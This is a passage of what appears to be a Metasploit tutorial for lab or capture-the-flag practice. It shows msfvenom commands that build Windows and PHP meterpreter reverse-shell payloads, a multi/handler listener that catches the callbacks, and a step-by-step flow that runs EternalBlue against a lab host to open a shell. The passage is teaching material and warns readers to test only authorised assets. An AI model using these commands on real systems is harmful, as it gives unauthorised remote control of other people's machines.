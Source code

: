 #### Windows exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### Encoding

Encoders only encode the payload (not guaranteed AV bypass). Use `-e`:
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=... -f raw -e php/base64
```

## Handlers (catching callbacks)

When you use reverse payloads, you must run a handler to accept incoming callbacks.

### Multi/handler
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/reverse_php
msf6 exploit(multi/handler) > set LHOST 10.0.2.19
msf6 exploit(multi/handler) > set LPORT 7777
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.0.2.19:7777
```

`multi/handler` supports staged/stageless payloads and meterpreter shells.

If your payload is meterpreter, the handler will give you a meterpreter session when the target connects.

## Example end-to-end flow (simple)

1. `db_nmap -sV -p- 10.10.12.229` — discover hosts & services, save to DB
2. `hosts` / `services` — review results
3. `use auxiliary/scanner/smb/smb_version` — fingerprint SMB
4. If SMB vuln found, `use exploit/windows/smb/ms17_010_eternalblue`
5. `show payloads` → `set payload <choice>`
6. `set RHOSTS 10.10.12.229` / `set LHOST <your IP>` / `set LPORT <port>`
7. `exploit` (or `exploit -z`)
8. `sessions` → `sessions -i <id>` → interact with shell/meterpreter

## Practical tips & cautions

- Exploit ranks reflect reliability; always read `info` for caveats (crash/BSOD risk).
- Test safely: run exploits only on assets you own or are authorized to test.
- Payload selection may require trial-and-error (AV, missing interpreters, rights).
- Handlers must match payload (staged vs stageless) and use correct `LHOST`.
- Use DB (`db_nmap`) for better project organization and reuse of discovered hosts.
- Be mindful of noise: many Metasploit scanners/exploits are noisy and logged.